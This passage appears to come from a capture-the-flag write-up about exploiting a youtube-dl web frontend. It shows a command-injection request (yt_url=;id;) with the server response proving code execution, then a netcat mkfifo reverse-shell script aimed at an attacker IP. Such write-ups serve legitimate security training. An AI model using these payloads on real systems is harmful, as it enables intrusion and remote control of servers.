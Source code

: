 ## Command Injection

As we found that only the `yt_url` parameter is sent in the POST request, we can try to understand whether it is vulnerable to command injection. Thus, let's modify the value of the parameter before it will be sent by, for instance, replacing it with `;id;`:

```
POST / HTTP/1.1
Host: 10.10.162.165
Content-Length: 13
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.162.165
Referer: http://10.10.162.165/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

yt_url=;id;
```

We will get the following:

```
HTTP/1.1 200 OK
Date: Sat, 21 Nov 2020 15:53:57 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 486
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\nsh: 1: -f: not found\n","url_orginal":";id;","output":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","result_url":"\/tmp\/downloads\/5fb93815ed122.mp3"}
```

Bingo! The response returned `"output":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n"`, thereby it's vulnerable to command injection.

## Remote Code Execution (RCE)

We can now try to execute a reverse shell. There are several ways to do that, in this case, we can opt for a simple netcat reverse shell. Let's write it down in a file:

```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_IP> 4444 >/tmp/f
```
